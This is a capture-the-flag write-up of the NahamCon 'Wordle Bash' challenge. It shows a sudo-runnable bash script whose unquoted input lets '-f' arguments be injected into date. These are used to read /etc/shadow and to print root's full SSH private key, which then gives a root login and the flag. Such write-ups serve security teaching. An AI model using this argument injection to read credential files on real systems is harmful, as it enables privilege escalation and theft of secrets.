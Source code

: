 # **Wordle Bash** (294 pts, 75 solves)

## **Description**
We put a new novel spin on the old classic game of Wordle! Now it's written in bash! :D

Oh, and you aren't guessing words, this time...


## **Solution**

We log in and have a shell script called `wordle_bash.sh`.

```sh
#!/bin/bash

YEARS=("2020" "2021" "2022" "2023" "2024" "2025")
MONTHS=("01" "02" "03" "04" "05" "06" "07" "08" "09" "10" "11" "12" )
DAYS=("01" "02" "03" "04" "05" "06" "07" "08" "09" "10" "11" "12" "13" "14" "15" "16" "17" "18" "19" "20" "21" "22" "23" "24" "25" "26" "27" "28" "29" "30" "31")

YEARS_SIZE=${#YEARS[@]}
YEARS_INDEX=$(($RANDOM % $YEARS_SIZE))
YEAR=${YEARS[$YEARS_INDEX]}

MONTHS_SIZE=${#MONTHS[@]}
MONTHS_INDEX=$(($RANDOM % $MONTHS_SIZE))
MONTH=${MONTHS[$MONTHS_INDEX]}

DAYS_SIZE=${#DAYS[@]}
DAYS_INDEX=$(($RANDOM % $DAYS_SIZE))
DAY=${DAYS[$DAYS_INDEX]}

TARGET_DATE="${YEAR}-${MONTH}-${DAY}"

gum style \
  --foreground 212 --border-foreground 212 --border double \
  --align center --width 50 --margin "1 2" --padding "2 4" \
  'WORDLE DATE' 'Uncover the correct date!'

echo "We've selected a random date, and it's up to you to guess it!"

wordle_attempts=1
while [ $wordle_attempts -le 5 ]
do
  echo "Attempt $wordle_attempts:"
  echo "Please select the year you think we've chosen:"
  chosen_year=$(gum choose ${YEARS[@]})

  echo "Now, enter the month of your guess: "
  chosen_month=$(gum choose ${MONTHS[@]})

  echo "Finally, enter the day of your guess: "
  chosen_day=$(gum choose ${DAYS[@]})

  guess_date="$chosen_year-$chosen_month-$chosen_day"

  if ! date -d $guess_date; then
    echo "Invalid date! Your guess must be a valid date in the format YYYY-MM-DD."
    exit
  fi

  confirmed=1
  while [ $confirmed -ne 0 ]
  do
    gum confirm "You've entered '$guess_date'. Is that right?"
    confirmed=$?
    if [[ $confirmed -eq 0 ]]
    then
      break
    fi
    echo "Please select the date you meant:"
    guess_date=$(gum input --placeholder $guess_date)
  done

  if [[ $(date $guess_date) == $(date -d $TARGET_DATE +%Y-%m-%d) ]]; then
    gum style \
      --foreground 212 --border-foreground 212 --border double \
      --align center --width 50 --margin "1 2" --padding "2 4" \
      "Congratulations, you've won! You correctly guessed the date!" 'Your flag is:' $(cat /root/flag.txt)
    exit 0
  else
    echo "Sorry, that wasn't correct!"
    echo "====================================="
  fi

  wordle_attempts=$((wordle_attempts+1))
done

gum style \
  --foreground 212 --border-foreground 212 --border double \
  --align center --width 50 --margin "1 2" --padding "2 4" \
  "Sorry, you lost." "The correct date was $TARGET_DATE."
```

The main idea of this game is that we have 5 guesses to guess a target date, upon which it will `cat /root/flag.txt`.

I actually made an oversight in the beginning that definately cost me some time on this problem, I assumed that this shell script was owned by `root`, however it actually is owned by `user`.

```
-r-xr-xr-x 1 user user 2383 Jun 16 04:37 wordle_bash.sh
```

Initially I was entering in random numbers, and actually got the date correct! Only to be greeted with,
```
cat: /root/flag.txt: Permission denied
```

After a bit more investigation, I checked out the `/etc/sudoers` file and realized my mistake: I needed to run the program with sudo obviously...
```
# User privilege specification
root    ALL=(ALL:ALL) ALL
root    ALL=(ALL:ALL) NOPASSWD:ALL
user    ALL=(root) /home/user/wordle_bash.sh
```

Now when running `sudo ./wordle_bash.sh`, I played around with the `$guess_date` variable. It's pretty clear to see that we can run arbitrary parameters to `/bin/date`. 

```sh
 while [ $confirmed -ne 0 ]
  do
    gum confirm "You've entered '$guess_date'. Is that right?"
    confirmed=$?
    if [[ $confirmed -eq 0 ]]
    then
      break
    fi
    echo "Please select the date you meant:"
    guess_date=$(gum input --placeholder $guess_date)
  done
```

Date has a parameter `-f` which tries to read from a file. Using that... nope.
```
Please select the date you meant:
date: invalid date ‘[ Sorry, your flag will be displayed once you have code execution as root ]’
```

Seems we need to do a bit more. Here I was sort of just blindly guessing for files. I even used `date -f` to read `/etc/passwd` and `/etc/shadow` and managed to crack the root password (the password was also `userpass`...), but password login for root is not allowed via ssh, and `su` and `login` don't have the SUID bit set.

I then took a guess to see if there was anything in `/root/.ssh`, maybe there is a key?
```
Please select the date you meant: -f /root/.ssh/*
date: extra operand ‘/root/.ssh/id_rsa.pub’
```

Aha! There is stuff there! I then grabbed the `id_rsa`.
```
Please select the date you meant:
date: invalid date ‘-----BEGIN OPENSSH PRIVATE KEY-----’
date: invalid date ‘b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn’
date: invalid date ‘NhAAAAAwEAAQAAAYEAxllMaPu/ewDglK/+qcskWbUTSiQtLBBX4Ls5EGWmGbTdKh7K7trC’
date: invalid date ‘Nht9hbSx8Ei4cLQWhbbwcvIqDAgrXYO9Vb/sr/BEyk1aVVTpFfLuFbsyZNZTqmONajdsf9’
date: invalid date ‘Kl/4Qy9u8/3duhBYaeV0Am4tK9mzM8/D2YbzmYD+pK8GFwJDQG5RdFstj6NxXjROAsaj8H’
date: invalid date ‘U7HHvkNFctEMMBmquAaG85DZO83ZUWWASB702UNrc701Mhdf7Ln92D2aEhwMisdBjK/F83’
date: invalid date ‘K71YIcrpkuDTQYhms4SGUlYIlUaIhridKH3m3BgCNhC5mjsy5IkV0VwG/SRxew0adhHxT+’
date: invalid date ‘Gc9izi2yy1uW1wrJT0u8ImQhTm35R+cLD+SpWJSHswDxygCVHTUvVIngNakJvWXRKDmS3N’
date: invalid date ‘PjIu9gaJ3D69Q3BDlxcbluhjl2Z/5nenryUZdoVORnCf75YiWgTtI/FhS7HnHyw69LaJoH’
date: invalid date ‘1NPGh/mV730OsnqtdakxkHXd3CDhcwY5QjvJlFEdAAAFgAlNDvEJTQ7xAAAAB3NzaC1yc2’
date: invalid date ‘EAAAGBAMZZTGj7v3sA4JSv/qnLJFm1E0okLSwQV+C7ORBlphm03Soeyu7awjYbfYW0sfBI’
date: invalid date ‘uHC0FoW28HLyKgwIK12DvVW/7K/wRMpNWlVU6RXy7hW7MmTWU6pjjWo3bH/Spf+EMvbvP9’
date: invalid date ‘3boQWGnldAJuLSvZszPPw9mG85mA/qSvBhcCQ0BuUXRbLY+jcV40TgLGo/B1Oxx75DRXLR’
date: invalid date ‘DDAZqrgGhvOQ2TvN2VFlgEge9NlDa3O9NTIXX+y5/dg9mhIcDIrHQYyvxfNyu9WCHK6ZLg’
date: invalid date ‘00GIZrOEhlJWCJVGiIa4nSh95twYAjYQuZo7MuSJFdFcBv0kcXsNGnYR8U/hnPYs4tsstb’
date: invalid date ‘ltcKyU9LvCJkIU5t+UfnCw/kqViUh7MA8coAlR01L1SJ4DWpCb1l0Sg5ktzT4yLvYGidw+’
date: invalid date ‘vUNwQ5cXG5boY5dmf+Z3p68lGXaFTkZwn++WIloE7SPxYUux5x8sOvS2iaB9TTxof5le99’
date: invalid date ‘DrJ6rXWpMZB13dwg4XMGOUI7yZRRHQAAAAMBAAEAAAGAECAzdPeUCOaN264hU2Gcz3RIIL’
date: invalid date ‘InQAVbd6hmX8hmhCwvAkfQR4dehx1ItmWgmoChtNFXYWtO9NwZAghp/3zV7aegZmoaKvkL’
date: invalid date ‘UT5e2DYmGCXeLNI7VBzVjZ9QQWYkBng+LShPYMoEjIP2J0bObTN6pH26cBF77VMD42Cw01’
date: invalid date ‘vrTO4z6ffbO/VQW8kk7zUV4f9vfjpJGyqx9enmsURs8PA1lDjLCIXYV2Sb/4EQzAHOCxyv’
date: invalid date ‘Zfv+LwCsvCIUqXNBVnO+N7hg5b/zh7gyvuzHq/vyOTjkNceQa7SZ/egeclWGkkYttUzUr1’
date: invalid date ‘0cveVqXTM2tfJhv8+cobJcmO7IccjsOyL+zYPR3mN/Q1nUvGyAERppXfhwTAZ5ljMRDkv/’
date: invalid date ‘KUy7IJ3Q9FnSVdqkni2u6ErHEer0/TKXAT92LYQXzTczd6hGvh+IADlmOLzU2d0RfkPZZ4’
date: invalid date ‘8GKvZfThN1OSMVpcwJMVeILWP6uz9WnnUAXgLIUriJK7rrsHpH0MNTmfTT9v5VSH3RAAAA’
date: invalid date ‘wB2od8rr4IU8AkpZ/kE9kY5a/INNsvSdUA6sn/5Fwso19fiPz2vYdP9fJMYjShV1wb8UFt’
date: invalid date ‘cajFvnnj2DnClU0imh1eC0fB5+vAmJvx8Qq9NWcmz7aejvZrBdIFbqGYr5krc5KvmizYVC’
date: invalid date ‘+tII4u4s5SFcvcZwmuIsWJQjbXA7VVa8v8Y10YJdeYsl3YpKqJdU0xPkt2Y2IgZxTJ4Dd9’
date: invalid date ‘MKgcPTBdOVuKA8r8ALCth9OV74k1GOEpLbDIY4gFiXbi7crQAAAMEA2Z0ZtNS6bUEq61DF’
date: invalid date ‘6758uI3wIeYe8NoGyxlH/oTGVqy5KfQ9vCochcSx0yov4MSZBY+foE8OAxNvAxBSV+2CnQ’
date: invalid date ‘4OHnZnKa9teSvphUCmnt4Va7CWRzmVmNiKlpMOky2P8Zfv3LdgpwrAbwxBL1HQv/eivXDm’
date: invalid date ‘0BQCxuiaOp5/3nz+K+IvA/cBhsJwS6bWMtAhcfzKfS7/NzgcLTtlVR1Li/vC/r69iDs/xi’
date: invalid date ‘zDGCjuOrjsWhqqIqjhMGZjguTz9Y+FAAAAwQDpVj6g1OSqzZ5Kw805VTcbRRTmiHb00hht’
date: invalid date ‘U4LYw5xV+1iNJ8/BijiIZaT/zXnZbzIzLBnPbzqNLW5sBPJ+eMo5wY5ZNKa/qMd4Rdj6Hx’
date: invalid date ‘pAVbuqv6sYPhj2Xl6R/yJUVRw6OGoIa0SEumrmXzbJTT25o9FgItuKOpRRWd9l4gB8Pa1I’
date: invalid date ‘LLomZzqAmpdZtcMX+ihYPAJL5UBGPkD4CO7JwHm+W36NpAEKhi/Fh6D/U/RPEtwXZEbaWY’
date: invalid date ‘vIJis7FbO7UrkAAAAJa2FsaUBrYWxpAQI=’
date: invalid date ‘-----END OPENSSH PRIVATE KEY-----’
```

And with this, was able to ssh into root. In the root directory, there was a binary, which I could then execute to get the flag.
```console
abhi@abhi-omen:~/Nahamcon/wordle$ ssh -i id_rsa -p 31308 root@challenge.nahamcon.com

root@wordle:~# ls
flag.txt  get_flag_random_suffix_345674837560870345
root@wordle:~# file get_flag_random_suffix_345674837560870345
get_flag_random_suffix_345674837560870345: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, with debug_info, not stripped
root@wordle:~# ./get_flag_random_suffix_345674837560870345
Please press Enter within one second to retrieve the flag.

flag{2b9576d1a7a631b8ce12595f80f3aba5}
```




## **Flag**: *`flag{2b9576d1a7a631b8ce12595f80f3aba5}`*
